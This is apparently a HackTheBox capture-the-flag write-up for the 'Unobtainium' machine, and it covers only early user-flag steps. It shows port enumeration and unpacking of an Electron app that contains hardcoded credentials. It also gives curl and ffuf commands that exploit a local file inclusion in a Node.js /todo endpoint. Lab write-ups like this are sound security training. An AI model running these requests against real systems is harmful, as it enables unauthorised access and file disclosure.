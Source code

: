 ## Unobtainium

https://app.hackthebox.com/machines/Unobtainium

### User Flag

Port Enumeration
```
80/tcp    open  http          syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Unobtainium
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)

8443/tcp  open  ssl/https-alt syn-ack
| ssl-cert: Subject: commonName=k3s/organizationName=k3s
| Subject Alternative Name: DNS:kubernetes, DNS:kubernetes.default, DNS:kubernetes.default.svc, DNS:kubernetes.default.svc.cluster.local, DNS:localhost, DNS:unobtainium, IP Address:10.10.10.235, IP Address:10.129.136.226, IP Address:10.43.0.1, IP Address:127.0.0.1

10250/tcp open  ssl/http      syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)

10251/tcp open  unknown       syn-ack

31337/tcp open  http          syn-ack Node.js Express framework
```

Download unobtainium on the HTTP port.

It is made with electron. Extract files from `app.asar`.
```
npx @electron/asar extract /opt/unobtainium/resources/app.asar app.js/
```

We have credentials inside src/js/todo.js.
```
data: JSON.stringify({"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "todo.txt"})
```

Analyzing this file, we can curl as it is.
```
curl -s http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "todo.txt"}' | jq
```

We can perform LFI, but just on local folder. Since we known it's NodeJS/Express framework, we try a few guesses like `server.js` and `main.js`, and eventually we got `index.js`.
```
curl -s http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "index.js"}' | jq -r '.content' > index.js
```

We could brute force this with:
```
ffuf -u http://10.10.10.235:31337/todo -d '{"auth":{"name":"felamos","password":"Winter2021"},"filename":"FUZZ.js"}' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -H 'Content-Type: application/json'
```
